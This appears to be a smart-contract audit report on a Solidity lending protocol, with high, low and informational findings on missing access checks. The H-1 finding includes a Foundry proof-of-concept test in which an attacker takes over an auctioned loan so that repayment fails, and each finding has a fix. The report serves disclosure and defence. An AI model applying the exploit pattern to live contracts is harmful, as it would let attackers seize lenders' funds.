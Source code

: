 ### [H-1] `Lender::buyLoan` allows anyone one with no ownership to a pool to buy a loan, Leading to irrecoverable debts to pools.

**Description:**
When a loan is put on an auction an attacker can buy the loan to another pool even though he has no ownership of the loan and the lender address changes to the attacker.`L#522: loans[loanId].lender = msg.sender;` and also increasing the debt of victim's pool. And If a borrower wants to repay the loan he cannot because the poolId is now calculated with the attacker address, which doesn't exist. So all state changes made using the pool address will fail.

In `Lender::buyLoan`, caller is set as the lender of the loan which will be the attacker here.

```solidity
// update the loan with the new info
@>  loans[loanId].lender = msg.sender;
    loans[loanId].interestRate = pools[poolId].interestRate;
    loans[loanId].startTimestamp = block.timestamp;
    loans[loanId].auctionStartTimestamp = type(uint256).max;
    loans[loanId].debt = totalDebt;

```

In `Lender::repay`, poolId calculated with attacker address and all calls operations with the poolId reverts.

```solidity
bytes32 poolId = getPoolId(
    loan.lender,
    loan.loanToken,
    loan.collateralToken
);

//update the pool balance
_updatePoolBalance(
    poolId,
    pools[poolId].poolBalance + loan.debt
    + lenderInterest
);

pools[poolId].outstandingLoans -= loan.debt;
```

**Impact**
An attacker can call buy loan and take ownership of the loan and all debts on that loan can't be paid and the lender will lose funds.

**Proof of Concept**

<details>

<summary>POC:</summary>

```solidity
 function test__buyLoansEvenIfCallerDoesNotHaveAPool() public {
        test_borrow();

        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;

        //accrue interest
        vm.warp(block.timestamp + 364 days + 12 hours);
        // kick off auction
        vm.startPrank(lender1);

        lender.startAuction(loanIds);

        vm.startPrank(lender2);

        Pool memory p = Pool({
            lender: lender2,
            loanToken: address(loanToken),
            collateralToken: address(collateralToken),
            minLoanSize: 100 * 10 ** 18,
            poolBalance: 1000 * 10 ** 18,
            maxLoanRatio: 2 * 10 ** 18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        bytes32 poolId = lender.setPool(p);
        vm.stopPrank();

        Pool memory lenderPool = lender.getPool(
            lender.getPoolId(
                lender1,
                address(loanToken),
                address(collateralToken)
            )
        );
        Pool memory lenderPool2 = lender.getPool(
            lender.getPoolId(
                lender2,
                address(loanToken),
                address(collateralToken)
            )
        );

        // warp to middle of auction
        vm.warp(block.timestamp + 24 hours);

        vm.startPrank(attacker);
        lender.buyLoan(0, poolId);
        vm.stopPrank();

        Pool memory attackerPool = lender.getPool(
            lender.getPoolId(
                attacker,
                address(loanToken),
                address(collateralToken)
            )
        );

        vm.startPrank(borrower);
        loanToken.mint(address(borrower), 5 * 10 ** 17);
        lender.repay(loanIds);
    }

```

</details>

Output :

```solidity
[FAIL. Reason: panic: arithmetic underflow or overflow (0x11)] test__buyLoansEvenIfCallerDoesNotHaveAPool()
```

**Recommended Mitigation:**
The protocol needs to add a check in the `Lender::buyLoan` function : if the caller is a the lender of the pool, if not it should revert.

```diff
function buyLoan(uint256 loanId, bytes32 poolId) public {
    ...
+   if (pools[poolId].lender != msg.sender) revert Unauthorized();
    ...

    }
```

### [L-1] `Fees::sellProfits` is missing a restriction, Protocol funds can be called by anyone to swap profits to WETH.

**Description:**

The `Fees::sellProfits` can be called by anyone to swap all protocol fees to WETH. Say maybe the attacker see that WETH prices tracking down, he could just sell all the profits to WETH there by reducing the value of the profits, although the protocol could swap back but some funds might be lost.

**Impact:**
There could be possible loss of value of funds that is if WETH prices are tracking down.

**Recommended Mitigation:**
The protocol can import Openzeppelin's Ownable2Step and add the onlyOwner modifier to the `Fees::sellProfits`, meaning only the owner can call the function

```diff
-   function sellProfits(address _profits) public {
+   function sellProfits(address _profits) public onlyOwner{
```

### [I-2] Floating pragmas

**Description:**
Contracts should use strict versions of solidity. Locking the version ensures the contract are not deployed with a different version than they were tested with. An incorrect version could lead to unintended results.

**Recommended Mitigation:**
Lock up pragma versions.

```diff
-   pragma solidity ^0.8.19;
+   pragma solidity 0.8.19;
```

### [I-3] No `address(0)` checks

Fees::sellProfits
